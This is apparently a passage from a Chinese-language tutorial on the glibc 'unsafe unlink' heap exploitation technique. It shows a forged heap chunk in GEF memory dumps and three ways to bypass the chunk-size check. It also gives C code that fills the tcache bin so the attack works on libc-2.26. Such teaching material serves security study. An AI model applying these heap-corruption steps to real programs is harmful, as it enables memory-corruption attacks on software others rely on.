 ```c
#define chunksize_nomask(p)         ((p)->mchunk_size)
/* Size of the chunk below P.  Only valid if prev_inuse (P).  */
#define prev_size(p) ((p)->mchunk_prev_size)
/* Bits to mask off when extracting size  */
#define SIZE_BITS (PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```

回顾一下伪造出来的堆：
```
gef➤  x/40gx 0x602010-0x10
0x602000:	0x0000000000000000	0x0000000000000091  <-- chunk 0
0x602010:	0x0000000000000000	0x0000000000000000  <-- fake chunk P
0x602020:	0x0000000000601058	0x0000000000601060      <-- fd, bk pointer
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
0x602080:	0x0000000000000000	0x0000000000000000
0x602090:	0x0000000000000080	0x0000000000000090  <-- chunk 1 <-- prev_size
0x6020a0:	0x0000000000000000	0x0000000000000000
0x6020b0:	0x0000000000000000	0x0000000000000000
0x6020c0:	0x0000000000000000	0x0000000000000000
0x6020d0:	0x0000000000000000	0x0000000000000000
0x6020e0:	0x0000000000000000	0x0000000000000000
0x6020f0:	0x0000000000000000	0x0000000000000000
0x602100:	0x0000000000000000	0x0000000000000000
0x602110:	0x0000000000000000	0x0000000000000000
0x602120:	0x0000000000000000	0x0000000000020ee1  <-- top chunk
0x602130:	0x0000000000000000	0x0000000000000000
```
这里有三种办法可以绕过该检查：
- 什么都不做。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x0`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x0) == 0x0`
- 设置 `chunk0_ptr[1] = 0x8`。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x8`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x8) == 0x8`
- 设置 `chunk0_ptr[1] = 0x80`。
  - `chunksize(P) == chunk0_ptr[1] & (~ 0x7) == 0x80`
  - `prev_size (next_chunk(P)) == prev_size (chunk0_ptr + 0x80) == 0x80`

好的，现在 libc-2.25 版本下我们也能成功利用了。接下来更近一步，libc-2.26 怎么利用，首先当然要先知道它新增了哪些漏洞缓解措施，其中一个神奇的东西叫做 tcache，这是一种线程缓存机制，每个线程默认情况下有 64 个大小递增的 bins，每个 bin 是一个单链表，默认最多包含 7 个 chunk。其中缓存的 chunk 是不会被合并的，所以在释放 chunk 1 的时候，`chunk0_ptr` 仍然指向正确的堆地址，而不是之前的 `chunk0_ptr = P = P->fd`。为了解决这个问题，一种可能的办法是给填充进特定大小的 chunk 把 bin 占满，就像下面这样：
```c
    // deal with tcache
    int *a[10];
    int i;
    for (i = 0; i < 7; i++) {
        a[i] = malloc(0x80);
    }
    for (i = 0; i < 7; i++) {
        free(a[i]);
    }
```
```
gef➤  p &chunk0_ptr 
$2 = (uint64_t **) 0x555555755070 <chunk0_ptr>
gef➤  x/gx 0x555555755070
0x555555755070 <chunk0_ptr>:    0x00007fffffffdd0f
gef➤  x/gx 0x00007fffffffdd0f
0x7fffffffdd0f: 0x4242424242424242
```